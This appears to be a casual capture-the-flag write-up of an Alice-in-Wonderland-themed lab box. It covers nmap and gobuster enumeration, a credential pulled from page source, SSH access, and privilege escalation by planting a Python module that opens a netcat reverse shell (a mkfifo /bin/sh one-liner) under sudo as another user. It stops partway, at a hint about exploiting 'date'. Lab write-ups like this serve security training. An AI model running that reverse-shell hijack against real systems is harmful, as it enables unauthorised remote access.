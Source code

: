 alice in wonderland medium ctf woo 
-

1.) check the page
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/7b92bc47-a739-422b-8f65-1f0a82394cdf)
- seems normal imagine Alice was a possilbe username
- page source had nothing special
  
2.) nmap scan get them ports
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/711d4e25-3130-4aa5-be6d-74bff21fcff3)
- i can see that ssh is open so thats great

3.) gobuster to find them hidden dirsssss
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/4567f883-9b7c-4633-bcaf-6c76fa10b1f0)
- repeatedly finding directories within them and they are messages in the book or just plain clues
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/98638b6a-4d39-4078-aa7d-162272ec8b21)
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/62f95f3d-b920-4a4b-8891-33b20d779a5e)
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/4e2de87c-de37-4f68-a5e8-61fde59b73f1)
- haha funny guess that it was /r/a/b/b/i/t
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/3a61d6bf-3727-48ac-9e46-bab10652410e)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/b866149c-ed41-4f42-8452-43b23db849b0)
- checked the page source i could be on something maybe a pw hopefully
- alice:HowDothTheLittleCrocodileImproveHisShiningTail

4.) ssh to funny login
-
- wow i was so right
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/95d7f549-18da-491d-ae68-bd5087cefc18)

5.) privlege escalation?
- honestly havent found user.txt yet
- but possible gtfo bins or changing the py script for reverse shell
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/5bdda17f-9927-467d-8a14-1c3cb062e78a)
- since rabbit is the one with those privleges, using a script that would call in as Rabbit to escalate
    - create a new py file inside the same dir
        - import os
              def choice(a):
              os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip 1204>/tmp/f")
      - run this and nc listener
      - ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/9bb098c3-8bf5-4cb4-864e-7c26bac43ab4)
      - sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/7e840d6b-b356-401e-a3e5-3d26a59bfbca)
- the damn user flag is in root man
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/87e53d4d-9da2-48c1-a6a8-40baefee6ba4)
- cheesed
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/a362bc2a-48fc-4ddd-9f63-7f71c56f5c9e)
- ok Mad hatter

6.) getting files
-
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/49eca0a1-14aa-4cb4-96cd-37853a5066e1)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/65746fc5-55fe-4162-b028-0bcb2081e4f8)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/c9ba0c9b-cbc9-4012-a881-8b0f7fe545e4)
- peeped that date is the command that I could exploit
- 
